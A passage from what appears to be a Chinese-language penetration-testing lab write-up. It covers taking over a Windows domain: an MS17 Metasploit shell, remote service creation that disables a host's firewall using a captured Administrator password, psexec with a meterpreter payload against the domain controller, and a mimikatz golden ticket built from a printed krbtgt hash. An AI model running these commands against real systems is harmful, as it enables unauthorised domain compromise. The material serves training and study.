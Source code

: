 利用msf上的ms17工具拿到shell

![msf-pc2](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/msf-pc2.png)

由于已经抓取到密码，可以利用smb传递直接上线域控，但在那之前需要关闭防火墙，由于两台机器135和445均开放，利用命令即可关闭

```
net use \\192.168.93.30\ipc$ "Whoami2021" /user:"Administrator"
sc \\192.168.93.30 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\192.168.93.30 start unablefirewall
```

### SMB传递DC

关闭DC防火墙后再进行登录

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
```

![DC-msf](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/DC-msf.png)

## 权限维持

### 黄金票据

这里用DC来做票据，获取机器的SID值,要使用的SID值除开最后一个-之前

```
wmic useraccount get /all
```

![DC-SID](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/DC-SID.png)

获取机器上krbtgt的密码hash

![DC-hash](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/DC-hash.png)

```
6be58bfcc0a164af2408d1d3bd313c2a
```

调用mimikatz生成黄金票据

![DC-golden-tickey](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/DC-golden-tickey.png)

成功后我们就能在非域控机上访问域控的文件等

![dc-dir-gloden](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/dc-dir-gloden.png)

至此整套环境被拿下

## 小结：

